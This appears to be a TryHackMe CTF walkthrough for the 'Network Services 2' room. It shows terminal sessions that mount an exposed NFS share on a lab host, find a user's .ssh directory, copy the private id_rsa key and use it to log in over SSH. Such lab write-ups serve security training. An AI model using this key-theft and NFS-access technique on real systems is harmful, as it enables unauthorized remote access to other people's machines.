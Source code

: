 Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ sudo mkdir /tmp/mount
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ sudo mount -t nfs 10.10.145.224:/home /tmp/mount/ -nolock
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ ls -lA /tmp/mount/
total 4
drwxr-xr-x 5 kali kali 4096 Jun  4 16:37 cappucino
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$
```

`cappucino`

Have a look inside this directory, look at the files. Looks like we're inside a user's home directory...

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ ls -lA /tmp/mount/cappucino
total 28
-rw------- 1 kali kali    5 Jun  4 16:38 .bash_history
-rw-r--r-- 1 kali kali  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kali kali 3771 Apr  4  2018 .bashrc
drwx------ 2 kali kali 4096 Apr 22  2020 .cache
drwx------ 3 kali kali 4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 kali kali  807 Apr  4  2018 .profile
drwx------ 2 kali kali 4096 Apr 22  2020 .ssh
-rw-r--r-- 1 kali kali    0 Apr 22  2020 .sudo_as_admin_successful
```

`No answer needed`

Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ ls -lA /tmp/mount/cappucino/.ssh/
total 12
-rw------- 1 kali kali  399 Apr 22  2020 authorized_keys
-rw------- 1 kali kali 1679 Apr 22  2020 id_rsa
-rw-r--r-- 1 kali kali  399 Apr 22  2020 id_rsa.pub
```

`.ssh`

Which of these keys is most useful to us?

`id_rsa`

Copy this file to a different location your local machine, and change the permissions to "600" using "chmod 600 [file]".
Assuming we were right about what type of directory this is, we can pretty easily work out the name of the user this key corresponds to.
Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ cp /tmp/mount/cappucino/.ssh/id_rsa .
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ chmod 600 id_rsa
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ ssh -i id_rsa cappucino@10.10.145.224
The authenticity of host '10.10.145.224 (10.10.145.224)' can't be established.
ECDSA key fingerprint is SHA256:YZbI4MCk+BQgHK2gc4cdmXuPTzO6m8CtiVRkPalFhlU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.145.224' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```